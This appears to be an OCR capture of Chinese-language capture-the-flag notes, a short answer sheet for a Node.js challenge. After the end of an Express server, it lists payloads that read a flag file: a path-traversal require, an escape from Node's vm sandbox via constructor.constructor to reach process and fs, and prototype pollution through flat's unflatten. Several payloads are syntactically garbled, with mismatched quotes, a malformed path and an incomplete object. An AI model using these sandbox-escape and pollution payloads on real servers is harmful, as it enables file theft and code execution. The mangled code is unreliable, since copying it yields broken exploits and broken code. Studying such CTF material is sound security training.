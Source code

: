 ```javascript
        "msg": "data is corrupted"
    });
});

const PORT = process.env.PORT || 3000;
app.listen(PORT, () => {
    console.log(`Server is running on port ${PORT}`);
});

```

 fs.readFileSync 

答案no! 参数问题


 require报错

答案

```javascript
require('../.../../flag')
```

 vm

答案

```javascript
require('vm').runInNewContext(['this.constructor.constructor('return this.process'))().mainModule.require('fs').readFileSync('/flag').toString()'])
```

 原型链污染

答案

```javascript
require('flat').unflatten({'__proto__.path'})
```





